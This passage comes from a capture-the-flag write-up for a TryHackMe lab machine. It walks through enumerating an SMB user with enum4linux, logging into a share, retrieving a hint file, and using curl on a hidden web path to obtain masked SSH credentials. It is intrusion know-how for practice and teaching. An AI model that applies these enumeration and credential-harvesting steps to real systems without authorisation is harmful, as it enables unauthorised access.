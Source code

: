 ```console
 ============================= 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: chuck    Name: ChuckBartowski    Desc: 

user:[chuck] rid:[0x3e8]
enum4linux complete on Thu Nov  5 13:55:40 2020
```
And I got a valid user **chuck**.

### Listing Share Content 
```console
local@local:~/Documents/tryhackme/nerdherd$ smbclient -U chuck  \\\\10.10.62.119\\nerdherd_classified
Enter WORKGROUP\chuck's password: 
Try "help" to get a list of possible commands.
smb: \> 
```
And we login with `chuck:<redacted>`.

```console
smb: \> dir
  .                                   D        0  Fri Sep 11 07:14:53 2020
  ..                                  D        0  Tue Sep 22 23:52:32 2020
  secr3t.txt                          N      125  Fri Sep 11 07:14:53 2020

                8124856 blocks of size 1024. 3207708 blocks available
smb: \> get secr3t.txt
getting file \secr3t.txt of size 125 as secr3t.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> 
```
### Content of secr3t.txt
```
local@local:~/Documents/tryhackme/nerdherd$ cat secr3t.txt 
Ssssh! don't tell this anyone because you deserved it this far:

        check out "/this******ect0ry"

Sincerely,
        0xpr0N3rd
<3
```
We got a new path on the webserver.

### Checking /this\*\*\*\*\*\*rect0ry
![5](/assets/images/thm/nerdherd/5.png)
### Content of creds.txt
```console
local@local:~/Documents/tryhackme/nerdherd$ curl 10.10.62.119:1337/this******0ry/creds.txt
alright, enough with the games.

here, take my ssh creds:

        chuck : th1******a5s
```